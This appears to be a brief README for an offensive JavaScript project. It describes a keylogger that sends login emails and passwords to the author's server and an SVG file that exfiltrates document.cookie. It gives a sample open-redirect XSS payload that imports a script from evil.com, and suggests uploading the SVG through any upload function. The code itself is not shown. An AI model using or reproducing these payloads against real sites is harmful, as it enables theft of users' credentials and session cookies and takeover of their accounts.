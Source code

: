 A Simple JS code to keylogger the email and password and send it to the personal server + svg file to send the (document.cookie)


USES :
- The Keylogger in something like XSS Via OpenRedirect in Login Page :
==> ?domain=javascript%3aimport(`//evil.com/xss.js`)

- SVG file in any upload Function
